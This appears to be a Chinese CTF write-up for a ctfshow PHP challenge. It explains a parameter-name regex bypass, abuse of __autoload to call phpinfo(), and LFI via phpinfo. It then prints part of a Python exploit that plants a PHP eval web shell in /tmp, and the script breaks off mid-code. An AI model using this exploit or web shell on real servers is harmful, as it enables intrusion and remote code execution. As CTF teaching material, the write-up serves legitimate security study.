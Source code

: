 ```php

```

session文件包含

方法我就不多说了，参考我的另一篇文章<a href="http://npfs06.top/2020/10/10/%E5%88%A9%E7%94%A8PHP-SESSION-UPLOAD-PROGRESS%E8%BF%9B%E8%A1%8C%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB/" target="_blank">利用PHP_SESSION_UPLOAD_PROGRESS进行文件包含</a>照着做就好



预期解

1. 使用`?..CTFSHOW..=xxx`可以绕过正则匹配,利用`空格 [ . +`自动转换为`_`的特性

2. `__autoload()`
   这个函数并不属于CTFSHOW这个类的,全局都可以用
   在定义这个函数后,尝试使用不存在的类的时候会自动加载
   用法参考 <https://www.php.cn/php-weizijiaocheng-426838.html>
    当class_exists传入参数为当前未定义类的情况下 就会触发`__autoload`方法进行自动加载
   传入`?..CTFSHOW..=phpinfo`就会执行`phpinfo()`
   然后可以用LFI via PHPINFO
   可以参考:<https://github.com/vulhub/vulhub/blob/master/php/inclusion/README.zh-cn.md>

   修改一下exp再打

```python
#!/usr/bin/python
import sys
import threading
import socket

attempts_counter = 0


def setup(host, port, phpinfo_path, lfi_path, lfi_param, shell_code='<?php eval($_POST["mb"]);?>', shell_path='/tmp/g'):
    """
    根据提供参数返回请求内容
    :param host:HOST
    :param port:端口
    :param phpinfo_path: phpinfo文件地址
    :param lfi_path: 包含lfi的文件地址
    :param lfi_param: lfi载入文件时, 指定文件名的参数
    :param shell_code: shell代码
    :param shell_path: shell代码保存位置
    :return:
        phpinfo_request: phpinfo 请求内容
        lfi_request: lfi 请求内容
        tag: 标识内容
    """
    tag = 'Security Test'   # 搜索验证标识
    payload = \
'''{tag}\r
<?php $c=fopen('{shell_path}','w');fwrite($c,'{shell_code}');?>\r
'''.format(shell_code=shell_code, tag=tag, shell_path=shell_path)

    request_data = \
'''-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
{payload}
-----------------------------7dbff1ded0714--\r
''' .format(payload=payload)

    phpinfo_request = \
```